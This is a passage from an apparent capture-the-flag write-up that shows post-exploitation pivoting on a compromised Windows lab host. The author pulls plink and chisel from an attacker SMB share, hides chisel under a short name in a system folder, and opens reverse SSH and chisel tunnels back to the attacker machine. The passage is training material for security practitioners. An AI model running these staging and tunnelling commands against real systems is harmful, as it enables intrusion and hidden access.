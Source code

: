 #### plink.exe

First, I’ll upload plink with `smbserver` on my kali box:

    
    
    C:\Users\Nelson\AppData\Local\Temp>net use \\10.10.14.14\share
    net use \\10.10.14.14\share
    The command completed successfully.
    
    
    C:\Users\Nelson\AppData\Local\Temp>copy \\10.10.14.14\share\plink.exe .
    copy \\10.10.14.14\share\plink.exe .
            1 file(s) copied.
    

I’ll ssh back to my host as the dummy user, and create a reverse tunnel (for
details on SSH tunneling, see [this post](/2018/06/10/intro-to-ssh-
tunneling.html)):

    
    
    C:\Users\Nelson\AppData\Local\Temp>plink -R 2020:localhost:2020 dummy@10.10.14.14
    plink -R 2020:localhost:2020 dummy@10.10.14.14
    dummy@10.10.14.14's password: **********************
    

Now I have a tunnel listening on my kali box on port 2020 that will forward to
bighead on 2020.

#### chisel

I’ll grab the [latest 32-bit
release](https://github.com/jpillora/chisel/releases) and upload it using SMB:

    
    
    C:\Windows\System32\spool\drivers\color>copy \\10.10.14.14\share\chisel_windows_386.exe \Windows\System32\spool\drivers\color\c.exe
    

Now I’ll run my server locally, allowing for reverse tunnels:

    
    
    root@kali# /opt/chisel/chisel server -p 8888 --reverse
    2019/03/29 13:43:05 server: Reverse tunnelling enabled
    2019/03/29 13:43:05 server: Fingerprint 1b:df:d4:d0:c7:29:0d:3f:77:ef:7a:62:ec:47:ff:9b
    2019/03/29 13:43:05 server: Listening on 0.0.0.0:8888...
    

Now I’ll connect back from BigHead:

    
    
    C:\Windows\System32\spool\drivers\color>c.exe client 10.10.14.14:8888 R:2020:127.0.0.1:2020
    c.exe client 10.10.14.14:8888 R:2020:127.0.0.1:2020
    2019/03/29 17:34:32 client: Connecting to ws://10.10.14.14:8888
    2019/03/29 17:34:42 client: Fingerprint 1b:df:d4:d0:c7:29:0d:3f:77:ef:7a:62:ec:47:ff:9b
    2019/03/29 17:34:48 client: Connected (Latency 983.2545ms)
    

The server reports the connection as well:

